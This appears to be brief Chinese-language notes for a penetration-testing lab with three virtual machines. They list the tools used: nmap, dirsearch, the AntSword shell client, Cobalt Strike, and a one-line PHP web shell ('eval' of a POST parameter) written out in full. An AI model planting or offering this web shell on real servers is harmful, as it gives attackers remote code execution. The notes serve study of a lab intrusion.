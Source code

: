 
# 基本简介

由三台虚拟机构成 win7模拟外网（网关服务器） server2008 和server2003是内网

# 渗透工具

## nmap

探测目标ip有哪些端口开放

## dirsearch

网页路径发现

## 一句话木马

```sql
<?php eval ($_POST[hack]);?>
```

## 中国蚁剑

shell控制端软件

## cobalt strike

内网渗透工具

